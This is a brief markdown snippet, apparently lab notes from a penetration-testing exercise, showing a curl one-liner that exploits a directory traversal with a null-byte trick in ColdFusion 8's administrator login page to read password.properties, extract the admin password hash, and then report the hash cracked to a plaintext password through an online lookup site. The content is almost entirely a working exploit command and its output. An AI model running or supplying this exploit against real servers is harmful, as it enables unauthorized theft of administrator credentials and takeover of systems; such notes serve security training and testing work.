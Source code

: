 **Exract hash**
```shell
curl -s http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en | grep '^password=' | head -1 | awk -F '=' '{print "\nHash: " $2}'
```
``Hash: AAFDC23870ECBCD3D557B6423A8982134E17927E``

**Cracked hash** ([md5hashing.net](https://md5hashing.net/hash/sha1/aafdc23870ecbcd3d557b6423a8982134e17927e))
```
Plaintext: pass123
```